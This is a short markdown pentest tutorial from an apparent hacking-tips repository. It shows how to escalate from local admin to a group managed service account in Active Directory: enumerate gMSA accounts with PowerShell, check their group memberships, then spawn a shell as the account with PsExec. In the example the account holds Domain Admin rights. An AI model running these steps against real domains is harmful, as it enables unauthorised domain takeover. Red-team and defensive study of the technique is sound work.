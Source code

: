 # Elevate from Local admin to gMSA account
Some of the steps in this  tutorial uses [ADModule](https://github.com/pwnj0hn/HackingTipsNTricks/blob/main/Active%20Directory%20Recon/ADModule.md)
* Check if any gMSA accounts are present in the domain.
 ```powershell
Get-ADServiceAccount -Filter * -properties dnshostname
```
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_01.png)

* Check if gMSA user have any interesting permissions so it is worth hijacking
 ```powershell
Get-ADPrincipalGroupMembership -Identity "http_svc$"
 ```
 https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_02.png
 
* Compromise the server which gMSA is assigned too.
* Download [SysInternals PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
* Open Administrator PowerShell or cmd prompt

![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_03.png)

* Use PsExec to spawn a cmd or PowerShell prompt as the gMSA account. Password can be anything. If not giving password as argument, just hit enter at the password prompt.

```powershell
.\PsExec.exe -i -u velvet\http_svc$ -p foobar cmd.exe
```
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_04.png)



In this case the http_svc$ account have Domain Admin rights, which it really should not have but we see service accounts have way to many priviliges all the time. DA is used in this example as a worst case scenario. It might have other cool priviliges too in other scenarios.

![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_05.png)

